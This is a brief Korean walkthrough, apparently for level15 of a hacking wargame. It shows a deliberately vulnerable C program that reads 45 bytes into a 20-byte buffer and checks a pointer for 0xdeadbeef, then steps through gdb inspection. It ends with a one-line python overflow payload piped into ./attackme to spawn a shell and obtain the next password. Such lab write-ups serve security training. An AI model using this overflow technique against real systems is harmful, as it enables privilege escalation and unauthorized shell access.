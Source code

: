 level15
===
1. 힌트 파일을 열어본다. 그러면 다음과 같은 내용을 볼 수 있다. 
```c
#include<stdio.h>

main(){
    int crap;
    int *check;
    char buf[20];
    fgets(buf, 45, stdin);
    if (*check==0xdeadbeef){
        setreuid(3096, 3096);
        system("/bin/sh");
    }
}
```
위의 소스는 attackme의 소스인 것 같다. attackme를 공격할 때, cheak값에 deadbeef의 주소값을 입력하면 공격에 성공할 것 같다.
2. gdb명령어를 통해 내부를 살펴보면 buf[20]+dummy[20]+cheak[4]+....로 메모리가 구성된 것을 볼 수 있다. 
3. deadbeef의 위치를 찾는다. 찾아보면 0x80484b2에 있는 것을 알 수 있다.
4. 위의 정보를 이용하여 다음과 같이 attackme를 공격하면 level16의 password를 알 수 있다.
<li>(python -c'print"a"*40+"\xb2\x84\x04\x08"'; cat)|./attackme</li>